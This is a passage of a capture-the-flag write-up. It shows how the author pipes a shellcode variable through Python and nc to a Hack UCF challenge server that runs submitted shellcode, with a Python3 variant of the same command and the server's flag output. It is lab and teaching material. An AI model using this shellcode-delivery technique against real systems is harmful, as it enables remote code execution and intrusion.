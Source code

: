 ```
> SCODE=$(echo $SCODE | sed -e 's/\"//g')
> python -c "print ('$SCODE')" | nc ctf.hackucf.org 10103
Send me shellcode, and I'll run it for you!
Running shellcode!
flag{...}
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 change the above `python` command to:  
`python3 -c "import sys; sys.stdout.buffer.write(b'$SCODE')" | nc ctf.hackucf.org 10103`

This gave me the flag.
